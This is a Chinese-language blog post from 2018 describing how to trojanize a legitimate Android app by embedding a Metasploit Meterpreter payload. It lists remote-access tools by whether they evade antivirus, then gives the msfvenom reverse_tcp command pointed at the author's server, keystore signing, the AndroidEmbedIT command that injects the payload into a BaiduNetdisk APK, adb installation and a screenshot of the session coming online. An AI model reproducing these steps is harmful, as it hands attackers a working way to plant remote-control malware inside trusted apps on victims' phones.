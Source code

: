 ```yaml
---
layout:     post
title:      Meterpreter之Android APK嵌入攻击实验
date:       2018-12-15
author:     Wh0ale
header-img: img/wallhalla-36EDN6WhY0k.jpg
catalog: true
tags:
    - Meterpreter
    - 移动安全
---
```


大家有啥更好的apk远控方法可以一块来交流交流
目前我知道的就只有
①DroidJack 不免杀

②SpyNote 不免杀

③CS生成  这个还没试过

④meterpreter嵌入apk

这里我用的的工具是：<https://github.com/yoda66/AndroidEmbedIT>
用法很简单只有三个参数

在先知上看的那篇文章手动修改apk文件总是出错，我弄了一下午没成功，后面直接就用的这个工具。

总结步骤

1. 在“apkmonk.com”或类似的镜像站点上查找现有的有趣APK应用程序。

2. 生成Metasploit APK文件。
3. 用“apktool”反汇编Metasploit APK文件，以及我们打算修改的APK文件。
4. 将所有Meterpreter smali代码复制到新的APK smali目录。
5. 通过查找具有以下行的intent-filter，在APK应用程序的AndroidManifest.xml文件中找到代码的入口点 ：

```
<action android:name="android.intent.action.MAIN"/>
```

包含此intent-filter的活动名称将是您要搜索的入口点。

6. 修改活动“.smali”文件以包含启动Meterpreter阶段的行。
7. 将Meterpreter AndroidManifest.xml中的所有Meterpreter权限复制到修改后的APK的AndroidManifest.xml中。
8. 重新组装成DEX压缩格式生成APK。
9. 使用“jarsigner”为新创建的APK文件签名，然后将其加载到目标Android设备上。

①.这里我是用的是之前学习移动安全用的diva-beta.apk

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=服务器IP LPORT 9000 -o /tmp/msf.apk
```

②.我在自己服务器上用meterpreter生成apk

③生成证书

```bash
keytool -genkey -v -keystore cowboys.keystore -alias cowboys -keyalg RSA -keysiz e 2048 -validity 10000
输入密钥库口令:
再次输入新口令:
您的名字与姓氏是什么?
​    [Unknown]:  Pentest
您的组织单位名称是什么?
​    [Unknown]:  Myself
您的组织名称是什么?
​    [Unknown]:  Myself
您所在的城市或区域名称是什么?
​    [Unknown]:  BeiJing
您所在的省/市/自治区名称是什么?
​    [Unknown]:  BeiJing
该单位的双字母国家/地区代码是什么?
​    [Unknown]:  CN
CN=Pentest, OU=Myself, O=Myself, L=BeiJing, ST=BeiJing, C=CN是否正确
```

④安装apk

```bash
adb connect 192.168.125.105
adb devices
```



这里无法上传的原因是之前我就有装过diva-beta.apk
然后顺便一提，这里连接不上adb的原因

>命令行输入：adb connect 172.16.4.37:5555 (:5555可省略）
>提示：unable to connect to 172.16.4.37:5555
>解决办法：
>    1）手机与PC相连，执行以下命令：adb tcpip 5555
>      成功提示：restarting in TCP mode port 5555
>      如果手机没有和PC连接，直接使用以上命令会提示 error:device not found
>      然后断开USB
>    2）接着执行adb connect 172.16.4.37:5555，这时候应该就能连接成功了
>      成功提示：connected to 172.16.4.37:5555



![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehopd3flj20e004ot95.jpg)

⑤使用脚本将msf.apk嵌入正常apk
python3 android_embedit.py -kp cowboys -kn cowboys -ks cowboys.keystore BaiduNetd isk_8.12.7.apk msf.apk

>kp 指的是签名密钥
>ks 为签名名称
>ks 是keystore文件

生成效果大概是这样...我当时忘了截图

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehowxy46j21400cnq4x.jpg)

另外要提的是  当时我本来选定的apk是某云的，后来反编译的时候文件出错，一直没成功，弄了一下午就放弃了

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehp9x7r9j20p30gotay.jpg)

⑥安装apk

```bash
adb install final.apk
```

⑦meterpreter上线

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehpy5dwij20ig0exq4x.jpg)